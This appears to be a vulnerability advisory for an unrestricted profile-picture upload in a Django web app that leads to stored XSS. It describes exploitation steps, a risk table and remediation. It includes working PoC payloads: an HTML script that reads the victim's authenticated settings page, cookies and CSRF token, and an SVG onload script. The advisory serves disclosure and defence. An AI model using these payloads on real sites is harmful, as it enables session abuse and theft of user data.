





# Description

Unrestricted file upload (CWE-434) in the profile-picture feature at `POST /account/settings/`. The handler validates neither the file extension nor the content (magic bytes) of the uploaded file. An authenticated user can upload an arbitrary non-image file — a script, an HTML page, or an SVG — which is stored under the public, same-origin path `/static/uploads/<name>` and served back under its assigned storage filename.

Because the file is served from the trusted application origin with an active content type (`text/html`, `image/svg+xml`) and no Content-Security-Policy, an uploaded HTML or SVG file results in stored XSS, in addition to arbitrary-content hosting on a legitimate domain.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Log in as any user. | Authenticated session. |
| 2 | Open the profile-picture editing modal on `/account/settings/`. | Upload form available. |
| 3 | Upload a non-image file (e.g. `Test.py`, `poc.html`, or a scripted `.svg`). | "Profile picture updated successfully." |
| 4 | Browse to `/static/uploads/<name>`. | File content is displayed in the browser. |
| 5 | Upload `poc.html` (or `poc.svg`) containing JavaScript as the profile picture. | "Profile picture updated successfully." |
| 6 | As a logged-in victim, open `/static/uploads/<attacker>_poc.html`. | The script runs on the application origin, reads the CSRF token and the victim's authenticated `/account/settings/` page. |

# PoC

**1. Open the upload modal:**



**2. Select a non-image payload file:**



**3. The upload is accepted with a success message:**





**4. The uploaded file is retrievable under the app origin:**

```
GET /static/uploads/0xh3x4r00t_Test.py  → HTTP 200, served verbatim
```



**5. Stored XSS — upload an HTML payload (`poc.html`):**

```html
<!DOCTYPE html>
<html>
<body>
<script>
  // 1. Proof of execution on the application origin
  alert('XSS on ' + document.domain);

  // 2. Impact: same-origin read of the logged-in victim's page
  fetch('/account/settings/', { credentials: 'include' })
    .then(r => r.text())
    .then(html => {
      console.log('cookies:', document.cookie);         // csrftoken is readable (not HttpOnly)
      console.log('settings page length:', html.length);
      console.log(html.substring(0, 500));              // victim's profile data
    });
</script>
</body>
</html>
```

SVG variant (`poc.svg`):

```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS on ' + document.domain)">
  <rect width="100" height="100" fill="red"/>
</svg>
```

**6. Trigger it as a victim:**

```
GET /static/uploads/<attacker>_poc.html  → HTTP 200, Content-Type: text/html, no CSP
```

The handler (`Account/views.py`) writes the file verbatim to `Account/static/uploads/<username>_<original_name>`, so the page is rendered and its script executes on the application origin in the victim's session context.

Stored XSS is reproducible: attacker JavaScript can read authenticated pages and the CSRF token, and therefore perform authenticated actions on the victim's behalf. The `sessionid` cookie is HttpOnly (Django default), so direct session-cookie theft via `document.cookie` is not possible.

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Victim data and CSRF token readable through stored XSS; `sessionid` is HttpOnly, so direct session-cookie theft is not possible. |
| Integrity | Attacker-controlled content hosted on the trusted origin; authenticated actions can be performed on the victim's behalf. |
| Availability | No direct availability impact demonstrated. |

Overall severity: **High** — unrestricted file upload and arbitrary content hosting, leading to stored XSS on the application origin. The application's deployment configuration uses `runserver --insecure`, and production settings specify `DEBUG=False`.

# Remediation

1. **Allow-list supported image types** (`.jpg`, `.jpeg`, `.png`, `.gif`) and validate uploaded files by decoding them with a trusted image-processing library. Do not rely solely on client-supplied extensions or MIME types.
2. **Re-encode images server-side** to strip embedded scripts/metadata.
3. **Rename uploads using a random UUID and a validated image extension**, and store user uploads outside the application web root or serve them from a separate isolated origin.
4. **Force safe response headers** for validated user content: an appropriate image `Content-Type` plus `X-Content-Type-Options: nosniff`. Ensure that untrusted active content cannot be served from the application origin.

# Author
CUSTODES SQUAD
